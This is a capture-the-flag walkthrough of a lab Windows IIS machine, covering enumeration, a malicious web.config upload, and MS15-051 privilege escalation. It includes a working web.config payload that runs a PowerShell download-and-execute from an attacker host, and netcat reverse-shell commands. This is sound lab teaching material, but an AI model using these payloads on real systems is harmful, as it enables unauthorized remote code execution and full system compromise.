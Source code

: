 # Bounty

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.85.240     
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-06 08:57 EDT
Nmap scan report for 10.129.85.240
Host is up (0.012s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http
```

This is a pretty old machine AND its running Windows, so there's probably some kind of IIS exploit here.

### File Upload

The web application just shows an image of a wizard:

<figure><img src="../../../.gitbook/assets/image (1573).png" alt=""><figcaption></figcaption></figure>

A quick check on the requests reveals this is running Microsoft-IIS/7.5.

<figure><img src="../../../.gitbook/assets/image (1054).png" alt=""><figcaption></figcaption></figure>

We can run a quick `gobuster` scan with `aspx,html,txt` extensions, and find a few files.

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://10.129.85.240/ -t 100 -x aspx,html,txt
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.85.240/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Extensions:              html,txt,aspx
[+] Timeout:                 10s
===============================================================
2023/05/06 09:00:00 Starting gobuster in directory enumeration mode
===============================================================
/transfer.aspx        (Status: 200) [Size: 941]
/uploadedfiles        (Status: 301) [Size: 0]
```

The ASPX page was a simple file upload.&#x20;

<figure><img src="../../../.gitbook/assets/image (1326).png" alt=""><figcaption></figcaption></figure>

I tried to upload an ASPX reverse shell, but it gives me an Invalid File error.

<figure><img src="../../../.gitbook/assets/image (2833).png" alt=""><figcaption></figcaption></figure>

This can be bypassed via NULL byte by appending `%00.jpg` to the end of the filename in Burp.

<figure><img src="../../../.gitbook/assets/image (3532).png" alt=""><figcaption></figcaption></figure>

However, when trying to view the file at `/UploadedFiles/rev.aspx`, it returns an error instead of a shell.

<figure><img src="../../../.gitbook/assets/image (228).png" alt=""><figcaption></figcaption></figure>

So uploading ASPX files doesn't work. But how about `web.config` files? It is possible to upload one that has VBScript embedded within it to execute commands. This is because we can potentially overwrite the existing `web.config` file and replace it with ours that executes commands.

Here's the file I used:

```markup
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%@ Language=VBScript %>
<%
  call Server.CreateObject("WSCRIPT.SHELL").Run("cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.13/Invoke-PowerShellTcp.ps1')")
%>
```

This would download a simple Powershell reverse shell from our device. We can directly upload the `web.config` file without bypassing any file extension checks. Afterwards, visiting the `/UploadedFiles/web.config` directory would make the machine download and run the script, giving us a reverse shell.

<figure><img src="../../../.gitbook/assets/image (1758).png" alt=""><figcaption></figcaption></figure>

We can grab the user flag.

## Privilege Escalation

### MS15-051

I did a quick check on the machine's OS by running `systeminfo`.

```
PS C:\windows\system32\inetsrv> systeminfo

Host Name:                 BOUNTY
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-402-3606965-84760
Original Install Date:     5/30/2018, 12:22:24 AM
System Boot Time:          5/6/2023, 9:04:11 AM
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     2,047 MB
Available Physical Memory: 1,575 MB
Virtual Memory: Max Size:  4,095 MB
Virtual Memory: Available: 3,587 MB
Virtual Memory: In Use:    508 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Local Area Connection 3
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.129.0.1
                                 IP address(es)
                                 [01]: 10.129.85.240
                                 [02]: fe80::4112:6417:a55f:fe64
                                 [03]: dead:beef::4112:6417:a55f:fe64
```

This was running Windows Datacenter 2008 and had no hotfixes applied. This means it is vulnerable to MS15-051.&#x20;

{% embed url="https://github.com/hfiref0x/CVE-2015-1701/tree/master/Compiled" %}

We can download the exploit and `nc.exe` to the machine via Powershell and run `exploit.exe` like this:

```powershell
(New-Object Net.WebClient).DownloadFile('http://10.10.14.13/ms15-051x64.exe', 'C:\users\merlin\desktop\exploit.exe')
(New-Object Net.WebClient).DownloadFile('http://10.10.14.13/nc64.exe','C:\users\merlin\desktop\nc.exe')
C:\users\merlin\desktop\exploit.exe "C:\users\merlin\desktop\nc.exe -e cmd.exe 10.10.14.13 4444"
```

This would give us a reverse shell as SYSTEM.

<figure><img src="../../../.gitbook/assets/image (1212).png" alt=""><figcaption></figcaption></figure>

Rooted!
